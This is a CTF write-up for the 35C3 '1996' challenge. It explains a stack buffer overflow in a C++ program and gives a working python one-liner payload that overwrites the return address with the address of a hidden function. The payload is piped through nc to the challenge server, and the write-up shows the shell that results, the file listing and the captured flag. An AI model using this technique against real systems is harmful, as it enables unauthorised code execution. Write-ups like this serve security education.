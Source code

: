 # Challenge 1996

42 Points

## Challenge

It's 1996 all over again!
nc 35.207.132.47 22227

The challenge also contains a zip file with the source and the binary of the application behind the given network address.

Difficulty estimate: very easy

## Solution

The C++ code shows an obvious buffer overflow. With the input that can be given to the program, the buffer overflow can be exploited and the pointer to the "hidden" function can be put into the memory to execute and unintended jump.

First we had to find the size of the buffer. From the 1996.cpp file we found that the size is 1024 chars. To exploit program, we need to send at least 1024 characters. After the 1024 we also need 4 chars extra. After that, we can put the address to our function we want to execute (found with objdump -d 1996).

All it takes is a little bit of python:

```
(python -c "print '\x00'*1048+ '\x97\x08\x40\x00\x00\x00\x00\x00'"; cat -) | ./1996

```

This results in a buffer overflow. On normal systems this just results in a segmentation fault (due to security features like address space randomization).

```
root@blackbox:# (python -c "print '\x00'*1048+ '\x97\x08\x40\x00\x00\x00\x00\x00'"; cat -) | nc 35.207.132.47 22227
Which environment variable do you want to read? =ls
1996
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag.txt
35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14

```
There is the flag! :)
